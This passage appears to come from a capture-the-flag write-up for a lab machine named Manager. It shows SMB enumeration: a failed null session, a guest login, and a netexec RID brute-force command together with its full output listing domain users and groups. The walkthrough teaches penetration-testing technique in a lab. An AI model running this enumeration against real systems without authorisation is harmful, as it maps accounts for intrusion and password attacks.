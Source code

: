 There is nothing much found.

### SMB 445
Lets try SMB client to list all shares available on the server. 
![alt text](/manager/smbclient.png)
It shows error `NT_STATUS_RESOURCE_NAME_NOT_FOUND` while accessing to Null Sessions. This indicates that we are unable to use this approach to list network-level shared resources. 
<br>

But we could try use a Guest Session and just entering an arbitrary username to log in:
![alt text](/manager/smblogin.png)
It can give us accessing to guest as login. Next step is to attempt brute force the RID starting from 5000 using netexec.
```bash
kali Medium/Manager » netexec smb 10.10.11.236  -u 'guest' -p '' --rid-brute 5000                                                                                                        130 ↵
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest:
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```
We got list of all users. 
<br>
